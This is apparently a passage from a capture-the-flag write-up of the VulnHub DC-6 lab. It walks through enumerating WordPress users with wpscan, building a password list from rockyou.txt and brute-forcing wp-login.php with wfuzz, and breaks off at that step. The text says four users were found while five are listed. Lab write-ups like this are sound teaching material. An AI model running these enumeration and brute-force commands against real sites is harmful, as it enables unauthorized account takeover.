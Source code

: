 ```
$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	parrot

#vulnhub
192.168.1.7     wordy

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

We discovered the webpage got a WordPress CMS installed on it.
![mainpage](/assets/img/dc-6/mainpage.png)

## Finding users

I run `wpscan` to enumerate WordPress site. As a result, I found 4 users.
```
$wpscan --url http://wordy -eu

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://wordy/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jens
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] graham
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] mark
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] sarah
 | FoundBy: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
## Genrating Password list.
The author of the box DCAU gave the clue on [website](https://www.vulnhub.com/entry/dc-6,315/).
![clue](/assets/img/dc-6/clue.png)
 Let's use it to generate password file.
```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt 
```
## Bruteforce
Now we have usernames and passwords, use this to bruteforce WordPress.
```
$wfuzz -c --hc=200 -z file,users.txt -z file,password.txt -d 'log=FUZZ&pwd=FUZ2Z&wp-submit=Log+In' http://wordy/wp-login.php

```